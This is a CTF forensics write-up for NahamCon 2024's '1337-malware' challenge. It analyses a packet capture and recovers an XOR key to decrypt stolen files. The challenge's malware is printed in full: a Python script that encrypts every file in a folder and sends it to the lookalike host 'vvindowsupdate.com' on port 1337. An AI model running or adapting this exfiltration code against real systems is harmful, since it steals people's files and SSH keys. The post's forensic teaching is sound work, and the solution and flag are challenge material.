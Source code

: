 ```yaml
---
layout: post
title: Nahamcon CTF 2024 | Forensics-Writeups
date: 2024-05-26
tags: ['Nahamcon_CTF_2024']
math: True
---
```


# Forensics/1337-malware writeup

## Challenge description

We received a plea for help from a rather frustrated looking employee. He said he accidently ran malware on his computer, but when he tried to pay the "leet hacker" to get his files back they said the malware was "broken"... best IT could do was provide us a PCAP. 

Download the file(s) below: 

[1337-malware.pcapng](../assets/1337-malware.pcapng)


## Solution
First, let us analyse the pcap file.
For brevity, let us call the system with IP address 192.168.56.101 as A and that with 192.168.56.1 as B.

We can see a python code sent by A to B in the packet No.7 which is as follows:

```python
import socket
import base64
import os
from random import randbytes
from pwn import xor

# DON'T FORGET TO CHANGE THIS TO THE REAL KEY!!!!
key = randbytes(32)

def encrypt(filename):
    f = open(filename, 'rb')
    data = f.read()
    f.close()
   
    encrypted = xor(data, key)
    return encrypted

def send_encrypted(filename):
    print(f'sending {filename}')
    data = encrypt(filename)
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall((f'Sending: {filename}').encode())
    s.close()

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall(data)
    s.close()

def get_all_files():
    file_paths = []
    for root, dirs, files in os.walk(os.path.dirname(os.path.realpath(__file__))):
        for file in files:
            file_paths.append(os.path.join(root, file))
    file_paths.remove(__file__)      
    return file_paths

files = get_all_files()
for f in files:
    send_encrypted(f)
    #os.remove(f)
```

In short, when this script is run in a folder, it generates a random 32 bytes key and then encrypts (by XOR with this key) and sends all the files (one after the other) present in that folder and in its sub-folders to the remote server `vvindowsupdate.com` on the port `1337`.

On analyzing packets further, we find a part of output of the above code i.e. `Sending: /home/davey/Documents/resources.zip` in packet No.15 sent by B to A and on following the subsequent TCP stream (stream 2), we get the encrypted data of the file `resources.zip` again sent by B to A. This implies that B has run the above script in the folder `/home/davey/Documents`.

In the next packets, we find the following files (mentioned along with TCP stream of their encrypted data), sent by B to A in encrypted form:
- ecorp.png -> TCP stream 4 
- Welcome Aboard.pdf -> stream 6
- /.ssh/id_rsa -> stream 8
- /.ssh/id_rsa.pub -> stream 10

Now we have the encrypted data of 5 files. So we have to decrypt them to get the flag.To decrypt them we have to XOR them with that randomly generated 32 bytes key. To find the 32 bytes key, we will use the header bytes of files (which are standard for a file format). But we will also use a little luck here, because otherwise, we would not be able to find the 32 bytes key.

The first 16 bytes of PNG files `8950 4e47 0d0a 1a0a 0000 000d 4948 4452` do not change so often , so we will find the first 16 bytes of the key by taking their XOR with the first 16 bytes of the encrypted `ecorp.png` file. 

So the first 16 bytes of the key are `82 C2 53 50 8B D5 4C 47 A7 E5 6D EC D8 76 B5 D6`

Now to find the remaining bytes, we will use `resources.zip`. The 30th and 31st byte of a zip file store the 1st and 2nd character of the name of the zip file, that are 'r' and 'e'. The 26th and 27th bytes store the length of the name of the zip file, which is 10 in our case (`resources/`). Now after observing the initial bytes of multiple zip files, we get to know that the remaining bytes of header (except the first 16 and those found above) are mostly `00`. Using all this information, we find the probable key i.e.  `82 C2 53 50 8B D5 4C 47 A7 E5 6D EC D8 76 B5 D6 a4 27 c6 45 09 0b 72 e1 b9 71 33 22 e2 e1 59 59`. 

Now we will write a python script to carve out the required encrypted data from the TCP stream of the respective file and try to decrypt it using the above key. If we try to decrypt the resources.zip file using the above key, we find that the key has some error in it. On observing the hexdump of the decrypted resources.zip, we find a string `wepcome.txt`.It is intuitive that it should be `welcome.txt` and so therefore we find that the corrected key should be `82 C2 53 50 8B D5 4C 47 A7 E5 6D EC D8 76 B5 D6 a4 27 c6 45 09 0b 72 e1 b9 71 33 22 fe e1 59 59`.

Now we just have to decrypt the files using this key. The script for decrypting ecorp.png (as an example) is:

```python
from scapy.all import rdpcap
from Crypto.Util.number import *

pcap = rdpcap("1337-malware.pcapng")

stream_src_IP = '192.168.56.1'
stream_dst_IP = '192.168.56.101'
stream_src_port = 33934
stream_dst_port = 1337

stream_packets = [pkt for pkt in pcap if pkt.haslayer('IP') and pkt.haslayer('TCP') and 
               pkt['IP'].src == stream_src_IP and pkt['IP'].dst == stream_dst_IP and 
               pkt['TCP'].sport == stream_src_port and pkt['TCP'].dport == stream_dst_port]

img_enc_data = b"".join(bytes(pkt['TCP'].payload) for pkt in stream_packets)

key = ['82','C2','53','50','8B','D5','4C','47','A7','E5','6D','EC','D8','76','B5','D6','a4','27','c6','45','09','0b','72','e1','b9','71','33','22','fe','e1','59','59']

img_data = b""

for i in range(len(img_enc_data)):
    e = img_enc_data[i]^bytes_to_long(bytes.fromhex(key[i%32]))
    img_data += long_to_bytes(e)

with open("dec.png",'wb') as f:
    f.write(img_data)
```

We can decrypt the pdf and zip file using a similar python script. We find the password of resources.zip in the pdf, use it to uncompress the zip file and find the flag in flag.txt that is:

`flag{c95c4ff18b0eb88123de779051a7a24f}`